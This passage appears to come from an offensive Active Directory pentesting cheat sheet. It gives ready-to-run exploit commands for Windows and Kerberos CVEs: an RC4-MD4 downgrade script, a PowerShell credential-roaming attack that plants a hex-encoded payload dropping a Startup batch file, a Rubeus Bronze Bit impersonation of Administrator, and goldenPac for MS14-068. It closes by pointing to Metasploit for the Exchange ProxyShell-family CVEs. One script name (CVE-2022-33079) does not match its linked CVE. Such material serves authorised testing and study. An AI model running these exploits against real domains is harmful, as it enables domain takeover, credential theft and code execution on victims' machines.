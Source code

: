 ```bash
msf6 exploit(windows/smb/cve_2020_0796_smbghost) >
```

* [RC4-MD4 downgrade](https://github.com/Bdenneu/CVE-2022-33679) (CVE-2022-33679)

To exploit this CVE the **RC4-MD4** encryption must be enabled on the KDC, and an AS-REP Roastable account is needed to obtain an ST for the target.

```bash
./CVE-2022-33079.py -dc-ip <DC_IP> domain.local/<as-rep_roastable_user> <target_NETBIOS>
```

* [Credentials Roaming](https://www.mandiant.com/resources/blog/apt29-windows-credential-roaming?s=33) (CVE-2022-30170)

```powershell
# Fetch current user object
$user = get-aduser <victim username> -properties @('msPKIDPAPIMasterKeys','msPKIAccountCredentials', 'msPKI-CredentialRoamingTokens','msPKIRoamingTimestamp')

# Install malicious Roaming Token (spawns calc.exe)
$malicious_hex = "25335c2e2e5c2e2e5c57696e646f77735c5374617274204d656e755c50726f6772616d735c537461727475705c6d616c6963696f75732e6261740000000000000000000000000000000000000000000000000000000000000000000000000000f0a1f04c9c1ad80100000000f52f696ec0f1d3b13e9d9d553adbb491ca6cc7a319000000406563686f206f66660d0a73746172742063616c632e657865"
$attribute_string = "B:$($malicious_hex.Length):${malicious_hex}:$($user.DistinguishedName)"
Set-ADUser -Identity $user -Add @{msPKIAccountCredentials=$attribute_string} -Verbose

# Set new msPKIRoamingTimestamp so the victim machine knows an update was pushed
$new_msPKIRoamingTimestamp = ($user.msPKIRoamingTimestamp[8..15] + [System.BitConverter]::GetBytes([datetime]::UtcNow.ToFileTime())) -as [byte[]]
Set-ADUser -Identity $user -Replace @{msPKIRoamingTimestamp=$new_msPKIRoamingTimestamp} -Verbose
```

* [Bronze Bit](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-overview) (CVE-2020-17049)

To exploit this CVE, a controlled service account with constrained delegation to the target account is needed.

```powershell
./Rubeus.exe s4u /bronzebit /user:<service_account> /rc4:<service_account_hash> /dc:dc.domain.local /impersonateuser:Administrator /domain:domain.local /altservice:cifs/target.domain.local /nowrap
```

* [MS14-068](https://tools.thehacker.recipes/impacket/examples/goldenpac.py)

```bash
goldenPac.py 'domain.local'/'user1':'password'@<DC_IP>
```

### Targeting Exchange server

* ProxyNotShell / ProxyShell / ProxyLogon (CVE-2022-41040 & CVE-2022-41082 / CVE-2021-34473 & CVE-2021-34523 & CVE-2021-31207 / CVE-2021-26855 & CVE-2021-27065)

The exploits in the Metasploit framework are good for these three CVEs.

